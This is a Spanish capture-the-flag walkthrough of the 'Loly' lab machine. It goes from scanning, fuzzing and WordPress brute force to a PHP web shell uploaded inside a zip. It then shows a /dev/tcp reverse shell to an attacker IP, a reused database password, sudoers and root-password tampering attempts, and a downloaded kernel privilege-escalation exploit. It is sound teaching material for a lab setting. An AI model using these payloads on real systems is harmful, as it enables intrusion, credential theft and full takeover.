# Loly

Realizamos un escaneo en la red:

```bash
> sudo arp-scan -I eth0 --localnet
```



-------------------------------------------------------------------------------

Vemos que hay una máquina VMWare con ip 192.168.1.25. 
Comprobamos que la máquina esté activa:

```bash
> ping -c 1 192.168.1.25
```

```bash
PING 192.168.1.25 (192.168.1.25) 56(84) bytes of data.
64 bytes from 192.168.1.25: icmp_seq=1 ttl=64 time=3.08 ms

--- 192.168.1.25 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 3.076/3.076/3.076/0.000 ms
```

-------------------------------------------------------------------------------

Ahora, realizamos un escaneo simple de puertos:

```bash
> sudo nmap -sS -p1-1000 -Pn 192.168.1.25
```
 
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 13:51 EST
Nmap scan report for ubuntu.home (192.168.1.25)
Host is up (0.0086s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:01:03:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
```

Inicialmente, parece haber un puerto abierto: el 80.

-------------------------------------------------------------------------------

Miramos que version de servidor http se está utilizando:

```basó
> sudo nmap -sV -p 80 -n -Pn 192.168.1.25 
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 13:53 EST
Nmap scan report for 192.168.1.25
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
MAC Address: 00:0C:29:01:03:D9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
```

-------------------------------------------------------------------------------

Ahora intentamos mirar qué posible sistema operativo está corriendo dicho servicio, haciendo una búsqueda em google con las siguientes palabras clave: nginx 1.10.3 Launchpad,n Gllí nos aparecerá lo más probable la vesión del SO sobre el que corre el servicio. 
Al parecer está ,corriendo sobre ```Ubuntu Xenial```.



-------------------------------------------------------------------------------

Miramos qué tologías web están corriendo sobre ese servidor:

```bash
> whatweb 192.168.1.25
```

```bash
http://192.168.1.25 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.3 (Ubuntu)], IP[192.168.1.25], Title[Welcome to nginx!], nginx[1.10.3]
```

-------------------------------------------------------------------------------

Y ahora miramos la página principal:


-------------------------------------------------------------------------------

Como no hay nada, buscaremos directorios ocultos posibles:

```bash
> wfuzz -c --hc 404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.25/FUZZ
```

```bash
000000009:   200        25 L     69 W       612 Ch      "# Suite 300, San Franci"
							"sco, California, 94105," 
							"USA."
000000587:   301        7 L      13 W       194 Ch     "wordpress"             
000045240:   200        25 L     69 W       612 Ch     "http://192.168.1.25/#"
```

Podemos ver que hay un directorio wordpress.

-------------------------------------------------------------------------------

Dentro del directorio wordpress miramos qué posibles subdirectorios puede haber o páginas.

```bash
> wfuzz -c --hc 404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.25/wordpress/FUZZ 
```

```bash
000000013:   200        496 L    1474 W     28194 Ch    "#"                     
000000241:   301        7 L      13 W       194 Ch      "wp-content"            
000000786:   301        7 L      13 W       194 Ch      "wp-includes"           
000007180:   301        7 L      13 W       194 Ch      "wp-admin"              
000045240:   200        496 L    1474 W     28194 Ch    "http://192.168.1.25/wordpress/"
```						   
-------------------------------------------------------------------------------

Al acceder al directorio wordpress desde el navegador esto es lo que vemos:



---


Como podemos ver los enlaces hacen referencia a un dominio en concreto, que asumimos es el que aloja el sitio. Por ese motivo, modificaremos /etc/hosts para asignar a la direccion IP el dominio en cuestion:

```bash
   ───┬───────────────────────────────────────────────────────────────────────────────────ó──────
      │ File: /etc/hosts
   ───┼──────────────────────────────────────────────────────────────────────────────────────────
  1   │ 127.0.0.1   localhost
  2   │ 127.0.1.1   kali
  3   │ ::1     localhost ip6-localhost ip6-loopback
  4   │ ff02::1     ip6-allnodes
  5   │ ff02::2     ip6-allrouters
  6   │ 192.168.1.25 loly.lc
```

Al clicar en la primera página, se abre la página principal del blog:



-------------------------------------------------------------------------------

Como vemos que hay una nombre que se repite continuamente, ```loly``` podemos suponer que ese nombre es un posible usuario.
Vamos al panel de administración de wordpress que es accesible.



Antes de nada probamos las típicas credenciales por defecto: Admin (no password), Admin / Admin, Admin / Admin123 etc...
Como no nos deja logearnos, podemos probar otras alternativas con el usuario **loly**.
Tampoco.

Dado que hay mucha probabilidad de que loly sea un usuario válido, podemos intentar hacer un ataque de fuerza bruta para averiguar las credenciales.

Realizamos un script llamado ```bruteForceLogin.sh``` y lo ejecutamos:

```bash
./bruteforceLogin.sh loly /usr/share/wordlists/rockyou.txt  
```



-------------------------------------------------------------------------------

Entramos en el panel de administración de wordpress:

http://loly.lc/wordpress/wp-login.php

y no encontramos nada especial. Miramos si hay alguna vulnerabilidad conocida para el tema de wordpress "feminine" pero no hay nada.
Enumeramos qué plugins tiene instalada la web:



Dados los plugins y sus versiones actuales, no encontramos posibles vulnerabilidades que explotar.

-------------------------------------------------------------------------------

Hay un ataque con el que podemos crear una posible web-shell, e incluso crear una reverse-shell que consiste en customizar la página de error 404.php
Este método requiere poder configurar los ficheros del tema de wordpress, pero vemos que no es posible.



Investigando vemos que podría haber una manera de resolver esto:



Pero no funciona, porque no hay manera de encontrar las páginas donde setear esto.

También podemos intentar instalar algún plugin vulnerable a php pero no podemos instalar plugins porque no tenemos privilegios para ello a pesar de ser admnistradores del sitio web de wordpress.



Observando la página del plugin instalado AdRotate, vemos que podemos añadir ficheros de medios.
Entre ellos hay posibilidad de subir ficheros .zip que, según se describe, son descomprimidos automáticamente.
Esto nos permitiría comprimir un fichero php y subirlo camuflado dentro del fichero zip.

Este es el contenido del fichero ```rce.php``` que subiremos dentro del zip:

```php
<?php system($_GET['c']); ?>
```

Tras subirlo pasamos a realizar un reconocimiento para ver si se ha subido correctamente.



Ahora podríamos examinar el contenido de ficheros clave dentro del sistema de archivos de la máquina víctima. Podríamos hacer

```bash
http://loly.lc/wordpress/wp-content/banners/rce.php?c=cat%20/etc/passwd 
```
o

```bash
http://loly.lc/wordpress/wp-content/banners/rce.php?c=ls%20-la%20/home/loly
``` 

Sin embargo, para trabajar más cómodamente vamos a entablar una reverse shell utilizando el sigui9ente comando como parámetro en la URL:


```bash
> bash -c "/bin/bash -i >%26 /dev/tcp/192.168.1.80/443 0>%261"
``` 

http://loly.lc/wordpress/wp-content/banners/rce.php?c=bash%20-c%20%22/bin/bash%20-i%20%3E&%20/dev/tcp/192.168.1.80/443%200%3E&1%22


Realizamos el tratamiento de la consola para poder operar con mayor facilidad:

```bash
script /dev/null -c bash
[Control+Z (^Z)]
(suspended)
stty raw -echo; fg
reset xterm
tty
/dev/pts/0
```

Comienza la fase de escalada de privilegios

```bash
www-data@ubuntu:/home$ cd /home/loly
www-data@ubuntu:/home/loly$ ls -la
total 32
drwxr-xr-x 2 loly loly 4096 Aug 20  2020 .
drwxr-xr-x 3 root root 4096 Aug 19  2020 ..
-rw------- 1 loly loly  196 Aug 20  2020 .bash_history
-rw-r--r-- 1 loly loly  220 Aug 19  2020 .bash_logout
-rw-r--r-- 1 loly loly 3771 Aug 19  2020 .bashrc
-rw------- 1 root root    0 Aug 19  2020 .mysql_history
-rw-r--r-- 1 loly loly  655 Aug 19  2020 .profile
-rw-r--r-- 1 loly loly    0 Aug 19  2020 .sudo_as_admin_successful
-rw------- 1 loly loly  614 Aug 20  2020 .viminfo
-rw-rw-r-- 1 loly loly   71 Aug 20  2020 cleanup.py
```
Buscando en el sistema de archivos 

cosas qe fueron saliendo

whoami
no hay sudo -l
no find . -perm ...

Buscando en internet donde se encuentra la base de datos de Wordpress:
https://www.bluehost.com/help/article/awordpress-find-database


-------------------------------------------------------------------------------

Así pues vamos al directorio home de www-data
~/html/wordpress$ y alli está el fichero wp-config.php

```bash
cat wp-config.php
```

``` php
<?php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

</** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );
...
```
Gracias a esto podemos ver el nombre de la base de datos, el username y el password


```bash
> mysql -u wordpress -p
Enter password <- Entramos el password

MariaDB[(none)]> connect wordpress
```

Tras mirar un tiempo, no encontramos nada relevante, por lo que abandonamos esta vía.

-------------------------------------------------------------------------------

Probamos a usar el password de la base de datos como password para la cuenta loly.

```bash
> su loly
password: lolyisabeautifulgirl

loly@ubuntu:/var/www/html/wordpress/wp-content/banners$
```

y funciona correctamente!

-------------------------------------------------------------------------------

```bash
>  ls -la /home/loly

total 32
drwxr-xr-x 3 loly loly 4096 Jan 20 14:52 .
drwxr-xr-x 3 root root 4096 Aug 19  2020 ..
-rw------- 1 loly loly 3934 Jan 20 10:11 .bash_history
-rw-r--r-- 1 loly loly  220 Aug 19  2020 .bash_logout
-rw-r--r-- 1 loly loly 3771 Aug 19  2020 .bashrc
-rw-rw-r-- 1 loly loly  226 Jan 20 14:28 cleanup.py
-rw-rw-r-- 1 loly loly 1024 Jan 20 14:52 .cleanup.py.swp
-rw------- 1 root root    0 Aug 19  2020 .mysql_history
-rw-r--r-- 1 loly loly  655 Aug 19  2020 .profile
-rw-r--r-- 1 loly loly    0 Aug 19  2020 .sudo_as_admin_successful
-rw------- 1 loly loly  614 Aug 20  2020 .viminfo
```

-------------------------------------------------------------------------------

```bash
loly@ubuntu:~$ cat .bash_history 

sudo -l
id
su root
cd /var/www/html
ls
rm -r latest.zip 
cd wordpress/
ls
cat wp-config.php 
more wp-config.php 
passwd
sudo vim /etc/sudoers
su root
sudo vim /etc/shadow
sudo passwd root
su root
```

Miramos qué hace el script cleanup.py:

```bash
loly@ubuntu:~$ cat cleanup.py 
import os
import sys
try:
	os.system('rm -r /tmp')
except:
	sys.exit()
```

Es decir, borra el contenido del directorio tmp. Viendo el directorio tmp, se puede ver que no hay nada interesante, es más. Ejecutando el script anterior, no funciona porque el usuario loly no tiene permisos para borrar algunos ficheros de dicho directorio.

Por mirar otras cosas, miramos qué significa .syslog_as_admin_successful, que a priori, parece una pista. Pero mirando en google vemos que no lo es:
Google.




Siguiendo mirando otras cosas mirarmos los ficheros de configuración de cron. 
Vemos que en uno de los archivos hay un script que se ejecuta regularmente llamado "popularity_contest".

-------------------------------------------------------------------------------

Buscando en Google: linux popularity_contest script
Encomntramos la siguiente página que nos da algo de información:

> https://askubuntu.com/questions/57808/what-is-the-popularity-contest-package-for


Seguimos investigando, esta vez inspeccionando los logs de /var/logs/auth.log y /var/logs/syslog.log

vemos que parece que el script cleanup.py se está ejecutando cada 5 minutos y que es root quien lo ejecuta:

Inicialmente la idea sería modificar el fichero python para escalar privilegios.

Una idea es añadir al usuario loly al final del fichero sudoers, dandole privilegios de super usuario para /bin/bash

```php
os.system("loly ALL=NOPASSWD:/bin/bash >> /etc/sudoers")
```

Otra posible idea es cambiar el password de root a algo sencillo, como 123456

```php
os.system("echo 123456\n123456 | passwd")
```

Tras unas cuantas pruebas, ninguna funciona. De hecho el script sin modificar tampoco funciona, pues el contenido del directorio /tmp no se borra que es lo que cabía esperar, así que tenemos seguir investigando
Intentamos ver si se puede encontrar la linea que invoca la tarea en cron. 

Google: where are stored the cron user jobs?

> Cron jobs are stored in a crontab file by username. These files are stored in /var/spool/cron/crontabs or /var/spool/cron/ .

```bash> 
loly@ubuntu:/var/spool/cron$ ls -la

total 12
drwxr-xr-x 3 root root    4096 Aug 19  2020 .
drwxr-xr-x 4 root root    4096 Aug 19  2020 ..
drwx-wx--T 2 root crontab 4096 Jan 21 01:55 crontabs
loly@ubuntu:/var/spool/cron$ cd crontabs/
bash: cd: crontabs/: Permission denied
```

Por aquí llegamos a una vía muerta, así que hay que buscar otra vía para escalar privilegios.

-------------------------------------------------------------------------------

Miramos qué posibles exploits hay para el sistema operativo host.

```bash
> searchsploit ubuntu 4.4 privilege escalation
```

```bash
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Esc | linux/local/40759.rb
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET | linux_x86-64/local/40871.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Es | linux/local/41458.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'targe | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - | windows_x86-64/local/47170.c
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BP | linux/local/39772.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Pr | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter tar | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux M | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access Via User Nam | linux/local/41760.txt
------------------------------------------------------------ ---------------------------------

Shellcodes: No Results
```

Este es un Linux Kernel 4.4 por lo que el exploit:

*"Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Pr | linux/local/45010.c"*

podría funcionar.

```bash
> searchsploit -m 45010.c
```

ahora lo que haremos es copiar el exploit en la máquina víctima. Para ello montamos un servido http por python en nuestr máquina, en el mismo directorio donde tenermos el exploit extraido.

```bash
> python3 -m http.server 80
```

desde la máquina víctima hacemos:

```bash
> wget 192.168.1.80/45010.c
```

ahora que tenemos el exploit en la máquina víctima, lo compilamos

```bash
> gcc 45010.c -o exploit
```

y lo ejecutamos:

```bash
loly@ubuntu:~$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800346de600
[*] Leaking sock struct from ffff880034e7d280
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800786fa480
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8800786fa480
[*] credentials patched, launching shell...
#_
```

En este punto tenemos el cursor parpadeando y si escribimos whoami, esto es lo que aparece:

```bash
#> whoami
root
```

-------------------------------------------------------------------------------

Ejecutamos una shell para operar con más comodidad:

```bash
#> /bin/bash 
```

y ya desde el directorio de root:

```bash
root@ubuntu:/root# ls -la
total 28
drwx------  2 root root 4096 Aug 20  2020 .
drwxr-xr-x 22 root root 4096 Aug 19  2020 ..
-rw-------  1 root root 1589 Aug 20  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  266 Aug 19  2020 root.txt
-rw-r--r--  1 root root   75 Aug 20  2020 .selected_editor
```

y vemos la flag:

```bash
root@ubuntu:/root# cat root.txt 
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
```

-------------------------------------------------------------------------------
